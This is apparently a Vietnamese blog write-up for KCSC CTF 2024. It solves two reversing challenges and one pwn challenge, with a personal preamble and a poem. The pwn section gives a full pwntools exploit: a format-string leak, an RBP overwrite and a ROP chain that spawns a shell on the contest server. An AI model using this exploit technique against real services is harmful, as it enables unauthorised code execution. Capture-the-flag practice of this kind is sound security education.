






Solutions for some challenges in KCSC CTF 2024

<!--more-->

# KCSC CTF 2024

Sau khi kết thúc thi cuối kỳ môn Pháp Luật Đại Cương, mình được nghỉ hơn 10 ngày để tiếp tục học giai đoạn mới. Đề CTF của KMA hay UIT luôn làm mình hứng thú, đặc biệt là những bài reverse. 

Thời gian cứ dần trôi, nỗi nhớ bạn gái cũ mỗi ngày một lớn, mình lại lặng lẽ lôi vài bài của giải KCSC CTF ra làm để khỏa lấp đi những trống vắng này. 

Trời mùa thu Hà Nội thật đẹp, nó sẽ đẹp hơn rất nhiều nếu như anh có em :fallen_leaf:

> **Trang** giấy trắng đâu thể mờ đi từng màu buồn của nắng\
**À** ơi vu vơ câu hát có lẽ chưa bao giờ anh viết tặng\
**Em** nhẹ bước chân qua bao ngọt ngào bao nhiêu cố gắng\
**Có** hay không những bước thềm trong con tim em cần một khoảng rộng\
**Biết** lúc nào anh có thể lại được gặp em một lần nữa\
**Là** khi đó anh cảm nhận mùi hương tàn cánh hoa sữa\
**Anh** yêu em thật nồng nàn như một định lí đã muôn thuở\
**Yêu** một người có lẽ phải học thêm nhiều điều\
**Em** là mảnh ghép cuối cùng anh còn thiếu\
**Nhiều** đêm dằn vặt tự gắng mình không hiểu\
**Lắm** những yêu thương trôi qua trong em nào thật nhiều\
**Không** lí do nào đã khiến em cùng người đó

## rev/f@k3


* 16 solves / 356 pts 
* **Given files:** [re_fk3.exe](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EQes0cpg1-ZIusqmKlO22C0B0BNG_6kO3gZYsZa2tQtsqQ?e=8AqamO)


**Solution**

Flow chương trình rất ngắn gọn. Mảng **`Str[]`** sẽ được decrypt bởi thuật toán RC4 với **`key`** = **`F@**!`**. Sau đó chương trình so sánh **`input`** nhập vào với **`output`** là kết quả của giải mã mảng trên. 


Bật debug lên và check **`output`**, ta nhận được một fake flag 


Mình xref **`key`** thì thấy nó còn được xuất hiện trong hàm **`sub_7FF7423313D0`**
```c
__int64 sub_7FF7423313D0()
{
  if ( !*(_BYTE *)(qword_7FF742335670 + 2) )
  {
    key[1] |= 1u;
    key[2] |= 1u;
    key[3] |= 1u;
    key[4] |= 1u;
  }
  return 0i64;
}
```

Vậy khả năng cao đây là hàm anti-debug. Nếu chúng ta debug thì sẽ nhận được key fake, mình đặt breakpoint tại hàm này, sửa lại giá trị cho thanh ghi **`ZF`** và thu được key chính xác là **`FA++!`**

Sau khi có key đúng thì kết quả decrypt vẫn sai. Có một vấn đề là dù **`input`** của mình khác nhau nhưng chương trình vẫn luôn in ra **`Correct!`**. Tới đây thì mình đoán được luôn hàm **`lstrcmpA`** đã bị thay đổi. 

> Nếu các bạn chơi giải KCSC/KMA đủ nhiều sẽ biết kỹ thuật này thường xuyên được sử dụng. 

Đi sâu vào hàm **`lstrcmpA`**, ta thấy flag được tạo ra bằng cách xor **`output`** với một mảng **`Str[]`** khác và luôn return 0. Đây cũng là lý do tại sao chương trình luôn in ra **`Correct!`**. 



Flag thu được là **`KCSC{1t_co5ld_be_right7_fla9_here_^.^@@}`**

## rev/RE x Rust


* 5 solves / 489 pts / by JohnathanHuuTri
* **Given files:** 
  * [flag.enc](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/ETw7mLb_E61Flv3qiLG1dboBxZt6nBy7-7rdnjg-4JtN6g?e=RAKj6l)
  * [rexrust](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EfKU4YDfSd9Pulfe-DQ_IdkBkZ8dRRyXosmgA4z0OAAURw?e=uOnSO1)
* **Description:** Challenge name tell everything!


**Solution**

Quan sát tổng quan, chương trình đọc dữ liệu từ file **`flag.txt`**, thực hiện encrypt qua 4 phase và ghi dữ liệu vào file **`flag.enc`**. 



### Phase 1 

Ở phase 1 này, sau khi debug và quan sát đầu ra, ta biết được hàm này đảo ngược chuỗi ban đầu.

```c
__int64 __fastcall revsrust::phase1::hff4818a749ae18af(char *input, unsigned __int64 input_length)
{
  [...]

  v12 = input;
  v13 = input_length;
  v10[0] = _$LT$I$u20$as$u20$core..iter..traits..collect..IntoIterator$GT$::into_iter::h8fa0f7e2a7257375();
  v10[1] = v2;
  while ( 1 )
  {
    result = core::iter::range::_$LT$impl$u20$core..iter..traits..iterator..Iterator$u20$for$u20$core..ops..range..Range$LT$A$GT$$GT$::next::h9b7c30fb7e58cb7b(v10);
    v11 = v4;
    v10[2] = result;
    if ( !result )
      break;
    v9 = v11;
    v14 = v11;
    if ( v11 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v7 = input[v11];
    v15 = v7;
    v8 = input_length - 1;
    if ( !input_length )
      core::panicking::panic::hee69a8315e4031d6();
    v6 = v8 - v11;
    if ( v8 < v11 )
      core::panicking::panic::hee69a8315e4031d6();
    if ( v6 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    if ( v11 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    input[v11] = input[v6];
    v5 = input_length - 1 - v9;
    if ( input_length - 1 < v9 )
      core::panicking::panic::hee69a8315e4031d6();
    if ( v5 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    input[v5] = v7;
  }
  return result;
}
``` 

### Phase 2 

Ở phase này, chương trình hoán vị 4 bit sau của byte này với 4 bit sau của byte kia. Ví dụ **`0x12`**, **`0x34`** sẽ thành **`0x14`**, **`0x32`**. 

```c
unsigned __int64 __fastcall revsrust::phase2::hf6a223748e1b24a0(char *rev_input, unsigned __int64 input_length)
{
  unsigned __int64 result; // rax
  unsigned __int64 v3; // [rsp+8h] [rbp-80h]
  char v4; // [rsp+17h] [rbp-71h]
  unsigned __int64 v5; // [rsp+38h] [rbp-50h]
  unsigned __int64 v6; // [rsp+48h] [rbp-40h]
  unsigned __int64 i; // [rsp+68h] [rbp-20h]

  for ( i = 0LL; ; i += 2LL )
  {
    result = input_length;
    if ( i >= input_length )
      break;
    v6 = i + 1;
    if ( i == -1LL )
      core::panicking::panic::hee69a8315e4031d6();
    if ( v6 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v5 = i + 1;
    if ( i + 1 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    if ( i >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v4 = rev_input[i] & 0xF | rev_input[v5] & 0xF0;
    if ( i >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    rev_input[i] = rev_input[v6] & 0xF | rev_input[i] & 0xF0;
    v3 = i + 1;
    if ( i + 1 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    rev_input[v3] = v4;
    if ( i >= 18446744073709551614uLL )
      core::panicking::panic::hee69a8315e4031d6();
  }
  return result;
}
```

Phase này được reimplement như sau 
```python
for i in range(0, len(flag), 2):
    tmp = flag[i] & 0xF | flag[i+1] & 0xF0
    flag[i], flag[i+1] = flag[i+1] & 0xF | flag[i] & 0xF0, tmp
```
Vì chúng chỉ swap giá trị giữa 2 byte cho nhau. Vậy nên chúng ta hoàn toàn có thể lấy luôn hàm này để lấy lại dữ liệu ban đầu. 

### Phase 3 

```c
__int64 __fastcall revsrust::phase3::h3b700fce28ff291d(char *input, unsigned __int64 input_length)
{
  [...]

  v16 = input;
  v17 = input_length;
  if ( input_length < 2 )
    core::panicking::panic::hee69a8315e4031d6();
  v14[0] = _$LT$I$u20$as$u20$core..iter..traits..collect..IntoIterator$GT$::into_iter::h8fa0f7e2a7257375();
  v14[1] = v2;
  while ( 1 )
  {
    result = core::iter::range::_$LT$impl$u20$core..iter..traits..iterator..Iterator$u20$for$u20$core..ops..range..Range$LT$A$GT$$GT$::next::h9b7c30fb7e58cb7b(v14);
    idx = v4;
    v14[2] = result;
    if ( !result )
      break;
    v12 = idx;
    v18 = idx;
    if ( idx >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v10 = input[idx];
    v11 = idx + 2;
    if ( idx >= 0xFFFFFFFFFFFFFFFELL )
      core::panicking::panic::hee69a8315e4031d6();
    if ( v11 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v5 = input[v11];
    v21 = input[idx];
    v22 = v5;
    if ( idx >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    input[idx] = v10 - v5;
    v9 = v12 + 2;
    if ( __CFADD__(v12, 2LL) )
      core::panicking::panic::hee69a8315e4031d6();
    if ( v9 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v8 = input[v9];
    if ( v12 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v6 = input[v12];
    v19 = input[v9];
    v20 = v6;
    v7 = v12 + 2;
    if ( v12 + 2 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    input[v7] = v8 - v6;
  }
  return result;
}
```

Phase 3 được reimplement như sau 
```python
for i in range(len(flag) - 2):
    flag[i] = (flag[i] - flag[i+2]) & 0xFF
    flag[i+2] = (flag[i+2] - flag[i]) & 0xFF 
```
Chúng ta dễ dàng dựng lại hàm **`rev_phase3`** là 
```python
def rev_phase3(flag):
    for i in range(len(flag) - 3, -1, -1):
        flag[i+2] = (flag[i+2] + flag[i]) & 0xFF
        flag[i] = (flag[i] + flag[i+2]) & 0xFF
    return flag
```

### Phase 4

Ở phase 4 này, chương trình tạo 1 số random 4 byte và xor tất cả các byte với **`input`**. Nếu chú ý, ta sẽ biết được các byte xor với nhau thì kết quả thu được luôn nằm trong khoảng [0, 255]. Từ đây, ta dễ dàng xây dựng hàm **`rev_phase4`** bằng brute-force. 

```c
__int64 __fastcall revsrust::phase4::h4b371456b6af0137(BYTE *input, unsigned __int64 input_length)
{
  [...]

  v10 = input;
  v11 = input_length;
  v6[0] = rand::rngs::thread::thread_rng::h616f5a4f3d25fa48();
  v5 = rand::rng::Rng::gen::h3adc539b43e4e5da(v6);
  v12 = v5;
  v6[1] = 0LL;
  v6[2] = input_length;
  v7[0] = _$LT$I$u20$as$u20$core..iter..traits..collect..IntoIterator$GT$::into_iter::h8fa0f7e2a7257375();
  v7[1] = v2;
  while ( 1 )
  {
    v8 = core::iter::range::_$LT$impl$u20$core..iter..traits..iterator..Iterator$u20$for$u20$core..ops..range..Range$LT$A$GT$$GT$::next::h9b7c30fb7e58cb7b(v7);
    v9 = v3;
    if ( !v8 )
      break;
    v13 = v9;
    if ( v9 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    input[v9] ^= HIBYTE(v5) ^ BYTE2(v5) ^ BYTE1(v5) ^ v5;
  }
  return core::ptr::drop_in_place$LT$rand..rngs..thread..ThreadRng$GT$::h46c61e1ef1922a5a(v6);
}
```

Phase 4 được reimplement như sau 
```python
for i in range(len(flag)):
    LOBYTE  = (rd >> 0) & 0xFF
    BYTE1   = (rd >> 8) & 0xFF
    BYTE2   = (rd >> 16) & 0xFF 
    HIBYTE  = (rd >> 24) & 0xFF 
    flag[i] ^= (BYTE1 ^ BYTE2 ^ HIBYTE ^ LOBYTE)
```

Dễ dàng build được hàm **`rev_phase4`** 
```python
def rev_phase4(flag, rd):
    for i in range(len(flag)):
        flag[i] ^= rd
    return flag
``` 

Ghép các phần lại với nhau, script hoàn chỉnh của chúng ta là 
```python
def phase1(flag): 
    return flag[::-1] 

def phase2(flag): 
    for i in range(0, len(flag), 2):
        tmp = flag[i] & 0xF | flag[i+1] & 0xF0
        flag[i], flag[i+1] = flag[i+1] & 0xF | flag[i] & 0xF0, tmp
    return flag

def rev_phase3(flag):
    for i in range(len(flag) - 3, -1, -1):
        flag[i+2] = (flag[i+2] + flag[i]) & 0xFF
        flag[i] = (flag[i] + flag[i+2]) & 0xFF
    return flag

def rev_phase4(flag, rd):
    for i in range(len(flag)):
        flag[i] ^= rd
    return flag

for i in range(0, 0xff):
    f = open("flag.enc", "rb")
    data = list(f.read()) 
    res = phase1(phase2(rev_phase3(rev_phase4(data, i))))
    print("".join([chr(i) for i in res]))
```

Nhìn sơ qua các kết quả thu được, ta có được flag là **`KCSC{r3v3rs3_rust_1s_funny_4nd_34sy_227da29931351}`**


## rev/behind the scenes


* 0 solve / 500 pts / by ndt
* **Given files:** [chall.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/Ec7HNS1M-OdJqmqPCLDivXsB--RiV_rQ9O4pT-fWe_E1kw?e=52AtSQ)
* **Description:** Don't miss anything. 


**Solution**

Updating... 

## pwn/KCSBanking


* 10 solve / 464 pts / by JohnathanHuuTri
* **Given files:** [banking.zip]()
* **Description:** Our club KCSC has created a new bank called KCSBank. It's still in beta but we cannot find out any bugs, please help us!\
**`nc 103.163.24.78 10002`**


**Solution**

### Overview

Chương trình có 2 lựa chọn chính:
- general_action 
- account_action 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int main_status; // [rsp+Ch] [rbp-4h]

  main_status = 0;
  init(argc, argv, envp);
  puts("Welcome to KCSBank");
  while ( !main_status )
  {
    main_status = general_action();
    if ( !main_status )
      account_action();
  }
  return 0;
}
```

Với lựa chọn **`general_action`**, chương trình có 3 chức năng: 
- login
- register
- exit

Trong hàm **`register`**, fullname được chứa ở **`ptr_fullname`**. Khi xref, ta thấy nó còn được xuất hiện ở hàm **`info`**.  



Với lựa chọn **`account_action`**, chương trình có 4 chức năng: 
- deposit
- withdraw
- info
- logout 

Xem qua một lượt các hàm, ta thấy hàm **`info`** có Format String Bug. 
```c
int info()
{
  printf(ptr_fullname);                         // fsb
  return printf("Money: %u\n", total_money);
}
```

### Format String Bug 

Đề bài cho chúng ta Dockerfile, hướng tiếp cận của mình là tận dụng bug trên để Return To Libc. 

Mình định nghĩa một số hàm để thao tác nhanh với chương trình như sau
```python
def login(username, password): 
    sla(b"> ", b"1")
    sla(b"Username: ", username.encode("utf8"))
    sla(b"Password: ", str(password).encode("utf8"))

def register(username, password, fullname): 
    sla(b"> ", b"2")
    sla(b"New username: ", username.encode("utf8"))
    sla(b"New password: ", str(password).encode("utf8"))
    sla(b"Your full name: ", fullname)

def info():
    sla(b"> ", b"3")

def logout(feedback): 
    sla(b"> ", b"4")
    sla(b"Please leave a feedback: ", feedback)
```

#### Leak stack & libc 
Bước đầu tiên, chúng ta sẽ đi tạo một account với fullname là **`payload`** nhằm leak được các giá trị như stack, libc. 

```python
payload = b"%6$p|%29$p|"
register("hacker", 123, payload)
login("hacker", 123) 
info()

data_leak  = rl().strip().split(b"|")
stack_leak = int(data_leak[0], 16)
libc_leak  = int(data_leak[1], 16) 
libc_base  = libc_leak - libc.symbols["puts"] - 0x01fa

log.info(f"stack leak = {hex(stack_leak)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")
```

#### Stack Buffer Overflow 

Về cơ bản, chương trình không có bug BOF. Nhưng chúng ta đang có một số thứ để có thể trigger được bug này. 
- Chức năng **`logout`** cho nhập feedback có kích thước tối đa 256 byte. 
- FSB cho phép thay đổi giá trị của thanh ghi **`RBP`**. 

Khi end chương trình, **`RSP`** sẽ nằm ở vị trí **`0x00007fffffffdc48`**, vậy **`RBP`** sẽ là **`0x00007fffffffdc40`**. 



Với FSB đầu tiên, ta thấy **`RBP`** phía trên nằm ngay ở ô stack đầu tiên. Ta hoàn toàn thay đổi được giá trị cho nó. 



Feedback của chúng ta được nhập bắt đầu từ **`0x00007fffffffdb10`**. Vậy mình sẽ đưa **`RBP`** về **`0x00007fffffffdb50`** để thử trigger xem. 

Lưu ý, giá trị **`stack_leak`** mình có được ở phía trên là **`0x00007fffffffdc20`**. 

```python
fake_rbp = stack_leak - 0xd0 
log.info(f"fake rbp = {hex(fake_rbp)}")

payload = f"%{fake_rbp & 0xFFFF}c%6$hn"
register("hacker", 123, payload)
login("hacker", 123) 
info()
```

Stack layout sau khi mình đổi **`RBP`** và nhập feedback 


Trigger thành công với input

```python
b"a" * 72 + b"1234567\n"
```



### Build ropchain
Okay, việc chúng ta bây giờ chỉ là đi build ropchain và lấy shell. 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./banking_patched") 
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("103.163.24.78", 10002)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

def debug():
    gdb.attach(p, gdbscript = """
        b *info+23
        b *main+0x54
        continue
    """)
    pause() 

def login(username, password): 
    sla(b"> ", b"1")
    sla(b"Username: ", username.encode("utf8"))
    sla(b"Password: ", str(password).encode("utf8"))

def register(username, password, fullname): 
    sla(b"> ", b"2")
    sla(b"New username: ", username.encode("utf8"))
    sla(b"New password: ", str(password).encode("utf8"))
    sla(b"Your full name: ", fullname)

def info():
    sla(b"> ", b"3")

def logout(feedback): 
    sla(b"> ", b"4")
    sla(b"Please leave a feedback: ", feedback)

# debug()

# Leak stack + libc 
payload = b"%6$p|%29$p|"
register("hacker", 123, payload)
login("hacker", 123) 
info()

data_leak  = rl().strip().split(b"|")
stack_leak = int(data_leak[0], 16)
libc_leak  = int(data_leak[1], 16) 
libc_base  = libc_leak - libc.symbols["puts"] - 0x01fa

log.info(f"stack leak = {hex(stack_leak)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")

logout(b"new_feedback")

# Change RBP
fake_rbp = stack_leak - 0xd0 
log.info(f"fake rbp = {hex(fake_rbp)}")

payload = f"%{fake_rbp & 0xFFFF}c%6$hn"
register("hacker", 123, payload)
login("hacker", 123) 
info()

# Build ropchain 
binsh  = libc_base + next(libc.search(b"/bin/sh\x00"))
system = libc_base + libc.symbols["system"]
poprdi = libc_base + 0x240e5
ret    = poprdi + 1

payload = b"a"*72 + p64(ret) + p64(poprdi) + p64(binsh) + p64(system)
logout(payload) 

p.interactive() 
```
Flag thu được là **`KCSC{st1ll_buff3r_0v3rfl0w_wh3n_h4s_c4n4ry?!?}`**